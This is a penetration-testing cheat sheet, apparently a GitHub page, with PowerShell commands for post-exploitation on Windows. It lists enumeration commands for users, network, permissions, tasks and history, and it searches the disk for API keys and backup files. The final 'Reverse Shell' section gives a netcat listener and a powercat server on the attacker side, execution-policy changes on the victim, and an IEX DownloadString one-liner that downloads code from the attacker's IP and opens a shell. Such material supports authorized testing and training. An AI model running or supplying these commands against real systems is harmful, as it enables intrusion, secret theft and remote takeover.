 # Enumeration

The first step when you have gained initial access to any machine would be to enumerate. We'll be enumerating the following:
## users:
```
Get-LocalUser
(Get-LocalUser).Name
(Get-LocalUser).Name.Count
Get-LocalUser -SID "sid_value"
Get-LocalUser | Where-Object -Property PasswordRequired -Match false
Get-LocalGroup | measure
```
## basic networking information:
```
Get-NetIPAddress
Get-NetTCPConnection | Where-Object -Property State -Match Listen | measure
get-nettcpconnection | where {$_.state -eq "listen" -and $_.localport -eq 445}
Get-NetRoute
Get-NetAdapter -Name * -IncludeHidden
Get-NetAdapter -Name * -Physical
netstat -an | findstr LISTENING | sort
```
## file permissions:
```
Get-ChildItem -Path C:\ -Include *.bak* -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem C:\* -Recurse | Select-String -pattern API_KEY
Get-Acl C:\ | Format-List
Get-ChildItem C:\ -Recurse | Get-Acl | Select-Object PSChildName, AccessToString | Format-List
```
## registry permissions:
```
Get-Acl "HKLM:\Software" | Format-List
Get-Hotfix
Get-Hotfix -Id KB4023834
```
## scheduled and running tasks:
```
Get-Process
Get-ScheduledTask -TaskName * | Format-List
Get-ScheduledTask | Where-Object {$_.State -eq "Running"}
get-scheduledtask | where {$_.taskname -eq "new-sched-task"}
Get-Process -Id (Get-NetTCPConnection -LocalPort YourPortNumberHere).OwningProcess
Get-Process -Id (Get-NetUDPEndpoint -LocalPort YourPortNumberHere).OwningProcess
```
## insecure files:
```
Get-ChildItem -Recurse C:\ | Get-Acl | Where-Object {($_.AccessToString -match "Everyone") -and ($_.AccessToString -match "FullControl")}
Get-ChildItem -Hidden -Path
```
## History
```
(Get-PSReadlineOption).HistorySavePath
```
 
# Reverse Shell

## Attacker's Machine:
```
git clone https://github.com/besimorhino/powercat && cd powercat
python3 -m http.server 8080
nc -lvnp 1337
```
## Victim's Machine:
- Execution Policy:
```
Get-ExecutionPolicy
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned
```
- Download and execute payload:
```
IEX(New-Object System.Net.WebClient).DownloadString('http://[Attacker's IP]:8080/powercat.ps1'); powercat -c [Attacker's IP] -p 1337 -ep
```

